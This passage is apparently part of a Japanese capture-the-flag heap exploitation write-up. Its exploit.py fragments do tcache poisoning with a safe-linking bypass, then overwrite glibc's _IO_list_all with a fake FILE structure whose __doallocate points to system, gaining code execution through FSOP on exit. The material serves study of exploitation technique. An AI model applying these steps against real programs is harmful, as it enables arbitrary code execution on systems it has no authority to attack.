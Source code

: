 ```python: exploit.py
fake_wide_data += pack(system) # __doallocate
fake_wide_data = fake_wide_data.ljust(0xe0, b'\0')
fake_wide_data += pack(chunkI + 0xe0)

create(8, 0x440 - 8, fake_file + fake_wide_data)
```
後は_IO_list_allに&I.fdを書き込んでexitを呼べばよい。まずL(mchunk_size=0x20)をdeleteしてtcache(0x20)に登録する。
```python: exploit.py
delete(11)
# tcahce(0x20): L
# tcache(0x30): C
```
その後前と同じ手法でC.mchunk_sizeを0x20に書き変えてdeleteする。
```python: exploit.py
# chunkCのsizeを0x20に書き変える。
delete(1)
copy(10)
paste(9) # index9がBになる。この時Jがfreeされる。

delete(2)
# tcahce(0x20): C -> L
# tcache(0x30): C -> L
```
次にC.fdを&_IO_list_allに書き変える。safe-linkingをbypassするために前にleakした&C.fd>>12とのxorを取った値を書き込んでいる。
```python: exploit.py
# tcache-poisoning
io_list_all = l.sym['_IO_list_all']
log.info('&_IO_list_all = %#016lx'%(io_list_all))
create(2, 0x30 - 8, pack(io_list_all ^ shr12_chunkC))
# tcache(0x20): C -> &_IO_list_all
# tcahce(0x30): L
```
この時のbinを見てみると以下のようになっており、攻撃が成功していることが分かる。

![5](https://storage.googleapis.com/zenn-user-upload/4f36f482c1ca-20230506.png)

次にEをdeleteする。
```python: exploit.py
delete(4)
# tcache(0x20): E -> C -> &_IO_list_all
```
次にE.fdに&I.fdの下位3バイト、C.fdに&I.fdの上位3byte書き込む。
```python: exploit.py
log.info('&chunkI.fd = %#016lx'%(chunkI))
log.info('lower 3byte: %#016lx'%(unpack(pack(chunkI)[:3].ljust(8, b'\0'))))
create(4, 0x4, pack(chunkI)[:3])
# tcache(0x20): C -> &_IO_list_all
log.info('upper 3byte: %#016lx'%(unpack(pack(chunkI)[3:6].ljust(8, b'\0'))))
create(2, 0x4, pack(chunkI)[3:6])
# tcache(0x20): &_IO_list_all
```
次にCをcopyしてEにpasteしている。CとEのサイズは0x4なのでpaste関数で0x8バイトmallocされる。これにより **&_IO_list_allが返る。** &_IO_list_allにはsprintfによりC.fd + E.fdが書き込まれるので **&_IO_list_allに&I.fdが書き込まれる。**
```python: exploit.py
copy(2)
paste(4)
# tcache(0x20):
```
createではなくcopy-pasteを使っているのは前述の通りcreateだと以下の部分で_IO_list_allがnullになり次のprintfで死ぬから。


[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34